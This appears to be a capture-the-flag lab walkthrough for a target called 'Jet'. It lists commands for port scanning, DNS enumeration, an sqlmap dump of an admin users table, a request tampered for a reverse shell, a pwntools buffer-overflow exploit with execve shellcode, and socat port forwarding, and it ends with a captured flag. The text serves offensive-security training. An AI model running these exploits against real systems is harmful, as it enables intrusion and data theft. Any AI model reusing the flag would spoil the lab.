 1) PortScan
```bash
rustscan -a 10.13.37.10 --ulimit 5000 -- -sV -sC -Pn
```
![[Pasted image 20230913115945.png]]
2) Digging the domain
```bash
dnsrecon -r 10.13.37.10/24 -n 10.13.37.10
```
![[Pasted image 20230913120254.png]]
3) Analyze the web traffic to find the hidden folder
![[Pasted image 20230913120456.png]]
4) Use sqlmap to retrieve the admin hash
```bash
sqlmap -u 'http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php' --batch --forms --level 3 --risk 3 -D jetadmin -T users --dump
```
![[Pasted image 20230913120601.png]]
5) Crack the hash on crack station and login
![[Pasted image 20230913120633.png]]
6) Analyze the email.php traffic and change the request to open a reverse shell
![[Pasted image 20230913121242.png]]
![[Pasted image 20230913121421.png]]
7) Get a reverse shell and look on /home/leak. Download it locally and exploit
```python3
#!/usr/bin/python3
from pwn import *

shell = remote('10.13.37.10', 9999)
shell.recvuntil(b"Oops, I'm leaking! ")

leaking = int(shell.recvuntil(b"\n"),16)

payload = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
payload += b"A"*(72-len(payload))
payload += p64(leaking)

shell.recvuntil(b"> ")
shell.sendline(payload)
shell.sendline(b"export HOME=/home/alex TERM=xterm; cd")
shell.interactive()
```
8) Expose the binary using socat and launch the exploit
```bash
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/home/leak &amp;
```
![[Pasted image 20230913143408.png]]
9) Xor non fatto
```
Hello mate!  
First of all an important finding regarding our website: Login is prone to SQL injection! Ask the developers to fix it asap!  
Regarding your training material, I added the two binaries for the remote exploitation training in exploitme.zip. The password is the same we use to encrypt our communications.  
Make sure those binaries are kept safe!  
To make your life easier I have already spawned instances of the vulnerable binaries listening on our server.  
The ports are 5555 and 7777.  
Have fun and keep it safe!  
JET{r3p3at1ng_ch4rs_1n_s1mpl3_x0r_g3ts_y0u_0wn3d}  
Cheers - Alex
```
10) 
socat TCP6-LISTEN:9200,fork TCP4:10.13.37.10:9900
